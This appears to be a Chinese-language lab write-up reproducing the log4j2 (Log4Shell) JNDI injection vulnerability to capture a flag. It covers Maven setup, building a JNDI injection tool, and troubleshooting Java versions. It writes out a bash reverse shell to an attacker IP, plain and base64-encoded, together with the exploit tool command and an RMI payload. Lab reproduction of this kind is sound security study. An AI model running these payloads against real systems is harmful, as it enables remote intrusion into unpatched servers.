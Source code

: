 # log4j2漏洞利用复现

## 漏洞原理

通过网上一张图解释漏洞原理，java应用程序提供的jndi
接口自动记录日志，并且会执行${jndi:ldap:}命令，因此只要提供一个恶意代码文件，就能通过这个命令让靶机去攻击机查找并下载病毒文件，然后返回poc.class给攻击机从而攻击机获得shell权限。

![alt text](images/principle.png)

## 下载maven安装包

`wget https://dlcdn.apache.org/maven/maven-3/3.9.4/binaries/apache-maven-3.9.4-bin.tar.gz`

![alt text](images/image-13.png)

通过命令`tar -zxvf apache-maven-3.9.4-bin.tar.gz`解压缩

在解压目录能够发现apache-mave-3.9.4文件

![alt text](images/image-14.png)

修改配置文件`vim /etc/profil`,在配置文件上添加相应的环境变量

```python
export MAVEN_HOME=/root/apache-maven-3.9.4 
export PATH=$MAVEN_HOME/bin:$PATH
```

![alt text](images/image-15.png)

`source /etc/profile`刷新配置文件，以确保修改生效

mvn安装完成

![alt text](images/image-16.png)

## 安装jndi注入工具

克隆github提供的注入包，这里是已经克隆好的

![alt text](images/image-12.png)

切换到 JNDI-Injection-Exploit目录，通过`mvn clean package -DskipTests命令编译打包`

![alt text](images/image-17.png)

接下来就可以利用JNDI注入工具进行攻击

## 注入攻击

构建反弹shell到攻击者主机端口，靶机定向到攻击机后自动下载ExecTemplateJDK8.class文件，然后触发，攻击机获取shell权限：

`bash -i >& /dev/tcp/192.168.249.8/6667 0>&1`命令进行URL编码`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==`，IP指定为攻击机IP，端口选取未被占用端口

监听6667端口

![alt text](images/image-20.png)

构建注入命令

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \
     -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0OS44LzY2NjcgMD4mMQ==}|{base64,-d}|{bash,-i}" \
     -A "192.168.249.8"
```

![alt text](images/image-18.png)

可以通过java -version查询相应的版本并选取来构造payload，之前kali默认按安装2.0版本，降级为1.8版本（这地方存在问题，后文会说）

![alt text](images/image-19.png)

选取`rmi://192.168.249.8:1099/fswrwl`进行URL编码并payload构造

![alt text](images/image-21.png)

和之前环境利用测试的一样会瞬间连接并断开

![alt text](images/image-22.png)

获得shell

![alt text](images/image-23.png)

flag在shell的tmp文件中

![alt text](image.png)

## 问题和解决

### java 版本

![alt text](images/image-24.png)

之前构造payload后拿不到反弹shell，检查java版本过高，然后将攻击机和靶机都降级为1.8版本，但是还是无法获得shell。随后以为是trustURLCodebase原因，trustURLCodebase为true的1.8版本无法实现注入，反而是`Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):`能够实现注入，比较反常

### http 版本

观察端口可以发现，搭建的java进程都是IPv6通信，当时怀疑是协议不对称的问题导致的

![alt text](images/image-25.png)

于是更换为IPV4java进程，但是依旧无法获得shell

![alt text](images/image-26.png)

![alt text](images/image-27.png)

### 服务器原因

考虑到JNDI搭建的服务器断开连接并且访问攻击机8180显示访问页面为空，搭建http服务能够看见相应的文件，猜测会是服务器没有正确将本地文件进行挂载

![alt text](images/image-32.png)

![alt text](images/image-30.png)

但是通过curl攻击机均有回复

![alt text](images/image-28.png)

![alt text](images/image-29.png)

并且能够通过URL获取ExecTemplateJDK8.class

![alt text](images/image-31.png)

因此服务器应该是能够将class文件正确挂载

### 攻击手段原因

直接使用bash命令不进行包装是能够成功的，因此是注入工具出现问题

![alt text](images/image-34.png)

### 环境

攻击机和靶机均应不大于java1.8

## 参考文档

[maven 的安装与配置（Command ‘mvn‘ not found）修改配置文件后新终端依旧无法识别到 mvn 命令](https://myon6.blog.csdn.net/article/details/136558685?spm=1001.2014.3001.5502)

[log4j2 远程代码执行漏洞复现（CVE-2021-44228）](https://blog.csdn.net/Myon5/article/details/136548391)

[Kali安装JAVA8和切换JDK版本的详细过程](https://blog.csdn.net/huayimy/article/details/130273362)

[log4j2远程代码执行漏洞原理与漏洞复现（基于vulhub，保姆级的详细教程）](https://blog.csdn.net/Bossfrank/article/details/130148819)

[网络空间安全综合实践](https://c4pr1c3.github.io/cuc-ns-ppt/vuls-awd.md.v4.html#)
